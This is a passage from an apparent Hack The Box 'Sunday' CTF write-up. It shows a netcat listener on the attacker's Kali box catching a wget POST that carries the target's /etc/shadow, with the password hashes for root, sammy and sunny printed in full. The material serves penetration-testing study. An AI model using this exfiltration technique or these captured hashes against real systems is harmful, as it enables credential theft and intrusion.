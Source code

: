 Look at the NC Listener again and you'll see the file content
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Sunday.htb]
└─# nc -lvnp 80   
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.76] 59453
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (solaris2.11)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.8
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 779

root:$5$rounds=10000$fIoXFZ5A$k7PlwsiH0wAyVOcKaAYl/Mo1Iq6XYfJlFXs58aA4Sr3:18969::::::23738933
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
dladm:*LK*:17760::::::
netadm:*LK*:17760::::::
netcfg:*LK*:17760::::::
dhcpserv:*LK*:17760::::::
ftp:*LK*:17760::::::
sshd:*LK*:17760::::::
smmsp:NP:17760::::::
aiuser:*LK*:17760::::::
ikeuser:*LK*:17760::::::
lp:NP:6445::::::
openldap:NP:17760::::::
webservd:*LK*:17760::::::
unknown:*LK*:17760::::::
pkg5srv:NP:17760::::::
nobody:*LK*:17760::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$rounds=10000$lUpW4prM$aKFJxjI7vlcj5DDvwIgYGy707a84mIEi0ZQK3XIDqT2:18980::::::23501200
sunny:$5$rounds=10000$bioFdRBN$1TTdfQFfhjNicxWhH07f8BIHABZ8di01CXWYTT5rMn9:18980::::::23505168
_ntp:*LK*:19698::::::
```

